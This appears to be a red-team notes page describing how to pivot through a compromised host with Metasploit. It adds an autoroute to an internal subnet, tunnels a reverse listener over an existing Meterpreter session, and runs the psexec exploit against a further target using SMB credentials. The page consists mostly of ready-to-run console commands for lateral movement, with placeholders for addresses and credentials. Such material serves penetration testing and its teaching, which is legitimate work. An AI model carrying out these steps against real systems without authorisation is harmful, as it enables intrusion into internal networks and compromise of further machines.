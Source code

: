 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - pivot
  - port-forward
  - metasploit-framework
  - cross-platform
credits:
  - Matthew Toussain
---
```

# Metasploit

> [!NOTE]
> This can work even if the compromised system is not a Windows operating system as long the session type is `meterpreter` payload.

Make the `meterpreter` connection act as a **p2p (peer-to-peer)** without requiring to use SMB namepipe or bind shell callbacks. Assuming you've gained a initial access, add a rule to route traffic.

```
meterpreter > run post/multi/manage/autoroute subnet=<subnet> netmask=/24
```

In this demonstration, we'll be using #psexec to exploit the target to pivot off from the compromised machine. Set `ReverseListenerComm` with a session ID. This will tunnel the `meterpreter` session.

```
meterpreter > background

msf exploit(windows/smb/psexec) > set ReverseListenerComm <session_ID>
```

Then set the IP address and port of the computer that's compromised.

```
msf exploit(windows/smb/psexec) > set lhost <pivot_IP>

msf exploit(windows/smb/psexec) > set lport <pivot_PORT>
```

Exploit the target.

```
msf exploit(windows/smb/psexec) > run rhosts=<target_IP> smbuser=<username> smbpass=<password>
```

You can list the `meterpreter` sessions to see that it is pivoting off from a compromised system.

```
meterpreter > background

msf exploit(windows/smb/psexec) > sessions -l
```

---
## References

### Backlinks

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x06 - Pivot/Cross Platform/SOCKS Proxy/C2 Frameworks/Metasploit]]

### Matthew Toussain

- [Matthew Toussain: Tactics Tuesday | Mass Meterpreter Single Channel](https://www.youtube.com/watch?v=IsrWJL0gIlg)